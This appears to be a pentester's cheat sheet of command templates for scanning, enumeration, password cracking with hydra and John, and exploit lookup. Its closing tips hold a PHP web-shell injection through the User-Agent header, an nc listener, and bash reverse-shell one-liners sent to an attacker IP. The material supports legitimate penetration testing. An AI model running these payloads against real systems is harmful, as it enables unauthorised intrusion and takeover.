 # Pentester's Cheat Sheet
Quick reference guide to all things pentest.



## Recon
### Nmap
Let's look for those open ports and export the output to a specified directory using `nmap`.
```
nmap -sV -sC -vv -oN ./scan [ip_address]
```

### Dirb
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the responses. DIRB’s main purpose is to help in professional web application auditing. 
```
dirb http://[ip or domain name]/[optional directories] [path_to_wordlist]
```

### SMBMap
SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.
```
smbmap -H [ip_address]
```
If an error is returned, try the `-u` switch and declare a username.
```
smbmap -H [ip_address] -u test
```



## Enumeration
### LinPEAS
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
```
# 1. Copy over the LinPEAS script over OpenSSH using ~scp~ 
scp [LinPEAS_file_path] [user]@[ip_address]:[file_path] <-- Psst! /dev/shm is a great place

# 2. Change directory to ensure file transfer was successful and set file as executable 
chmod +x [file_name].sh

# 3. Now its time to let LinPEAS work its magic and find some escalation vectors. Run the following:
./linpeas.sh | tee linlog.txt

For more information, check out LinPEAS Github: https://github.com/carlospolop/PEASS-ng/
```



## Cracking
### Hydra
Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

> Hydra ssh
```
hydra -l [username] -P [wordlist] [ip_address] ssh
```

> Hydra http-post-form
```
hydra -l [username] -P [path_to_wordlist] [target_ip] http-post-form "/[directory]:[user_param]=^USER^&[password_param]=^PASS^:[error_message]"
```

### John
John the Ripper is a tool designed to help systems administrators to find weak (easy to guess or crack through brute force) passwords, and even automatically mail users warning them about it, if it is desired.

Run private SSH key against ssh2john to produce a new hash file. Next, crack the hash using specified wordlist. This should provid 
a password for password protected private keys. 

> ssh2john

For password protected private keys, convert the RSA key into a readable hash file for John to crack. 
```
ssh2john [key_id_rsa] > [new_file_name]
```
> John
```
john [path_to_file] --wordlist=[path to wordlist]
```


## Exploits
### SearchSploit
Exploit Database Archive Search After locating the exploit, copy it into the current directory.
```
searchsploit -m [exploit_file_path]
```



## Basic Linux Commands

- List directory, show hidden, and permissions files
```
ls -la
```

- Change Permissions for a file or directory:
```
chmod ### [file] or [directory]
```

- Need to change a file to an executable?
```
chmod +x [path_to_file | file_name]
```

- Another way of changing permissions over a directory is:
```
chown [user_name] [dir]
```

- Find files with SUID bit set:
```
find / -perm /4000
```
> Or (if using is in sudoers file).
```
sudo -l
```
- Open and listen on a port using `nc`. Now you're ready to execute that reverse shell.
```
nc -lvp [port_number]
```


## Random Tips & Tricks
### RSA Keys
RSA Keys only like to be read by authenticated Users. Groups and others.. not so much. Be sure to change permissions to:
```
chmod 600 [RSA_Key_file_name]
```

### User Agents
Somestimes PHP can be passed in through request headers, specifically the User-Agent. If successful we can pass in an ecoded web shell one-liner via the `c` parameter. 
```
curl [ip or domain name] -H "User-Agent:<?php system(\$_GET['c']); ?>"
```

### Interactive Shell
Maybe you need to switch users, maybe you prefer BASH - either way you need to spawn an interactive shell. Also, `echo $0` will inform you of which shell you're currently using. 
```
python -c "import pty;pty.spawn('/bin/bash')"
```

### Python HTTP Server
```
sudo python -m http.server 80
```

### Bash Reverse Shell
```
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
> If there's a script that is executed by root, modifing the script file may be a privileg escalation vector:
```
bash -i >& /dev/tcp/[attack_ip]/[attack_port] 0>&1; 
```
